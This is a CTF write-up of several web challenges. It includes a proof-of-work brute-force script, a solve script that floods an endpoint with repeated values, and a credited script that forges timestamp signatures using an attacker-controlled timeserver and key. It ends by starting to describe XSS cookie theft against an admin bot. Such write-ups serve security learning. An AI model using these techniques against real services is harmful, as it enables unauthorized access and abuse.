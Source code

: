 <h2>Bad_Worker:</h2>
Just curl the /FLAG.txt endpoint.

<h2>POW</h2>
You have to show Proof-of-work by finding 100000 integers whose hashes have the preceding 24bits as zeroes.
First thought:
Find one just number and then just send that same to the server 100000 times but I thought this was just too resource intensive.
Still ran a script to find such a number:
```
function hash(input) {
  let result = input;
  for (let i = 0; i < 10; i++) {
    result = CryptoJS.SHA256(result);
  }
  return (result.words[0] & 0xFFFFFF00) === 0;
}

let i = BigInt(0);
async function main() {
  async function loop() {
    console.log(`Checking ${i.toString()}...`);
    for (let j = 0; j < 1000; j++) {
      i++;
      if (hash(i.toString())) {
        console.log(`Found valid hash for ${i.toString()}`);
        process.exit(0);
      }
    }
    setImmediate(loop);
  }
  loop();
}
main();
```

Got 2862152 as first result. Tried sending it but was stopped by a rate limit after a bit.

After seeing writeups:
I am dumb. 
Could have just sent an array of the number repeated 1000000 times.

Solve.py:(Not mine sadly)

```
import requests

s = requests.Session()

headers = {"Content-Type": "application/json"}

for i in range(10):
    payload = "[" + ",".join(['"2862152"'] * 100000) + "]"
    resp = s.post("https://web-pow-lz56g6.wanictf.org/api/pow", data=payload)
    print(resp.text)
	
```

<h2>One day one letter</h2>
This was sort of a rev challenge. 
We get one letter of the flag each day and the flag has 12 characters. 
The timestamp is provided to the server via a timeserver which is specified with the request 
The timeserver provides the timestamp signature and the public key. 
The content server checks if the signature is validated by the public key and if it does then sends a letter of the flag.
So basically have to create own key pair and sign the timestamp with it and send to server.
Doing so for different timestamps gives one letter at a time.

Solve script (Not mine) Credit: https://xp.goodwillmischief.fr/posts/web/

```
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import hashlib
import time
import requests
import re
import time

import urllib3
urllib3.disable_warnings()

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

print(pubkey)  # paste at http://attacker-server/pubkey

headers = {
  'Content-Type': 'application/json',
}

proxies = {
  "http": "0.0.0.0:8080",
  "https": "0.0.0.0:8080"
}

time.sleep(10)


def send_req(tstamp, signature):
  json_data = {
      'timestamp': tstamp,
      'signature': signature,
      'timeserver': 'happi.free.beeceptor.com',
  }
  response = requests.post(
      'https://web-one-day-one-letter-content-lz56g6.wanictf.org/',
      headers=headers,
      json=json_data,
      verify=False,
      proxies=proxies,
  )
  return response

def find_letter(html):
    pattern = r'FLAG{\?+([a-zA-Z]).*}'
    match = re.search(pattern, html) 
    
    if match:
        return match.group(1)
    else:
        return 1


if __name__ == "__main__":
    timestamp = int(time.time())
    flag = [0]*12

    for i in range(12):
      idx = timestamp // (60*60*24) % 12
      print(f"{timestamp} -> {idx}")

      # Convert timestamp to string and encode to bytes
      timestamp_bytes = str(timestamp).encode('utf-8')

      h = SHA256.new(timestamp_bytes)
      signer = DSS.new(key, 'fips-186-3')
      signature = signer.sign(h)

      r = send_req(timestamp_bytes.decode(), signature.hex())
      c = find_letter(r.content.decode())
      print(f"[+] {c} found at pos {idx}")
      flag[idx] = str(c)

      # Add one day from the timestamp
      timestamp += 60*60*24
      print(flag)
    
    print(''.join(flag))
    
# FLAG{lyingthetime}
```

<h2>Noscript</h2>

We need to retrieve the admin’s cookie who is a XSS bot using playwright.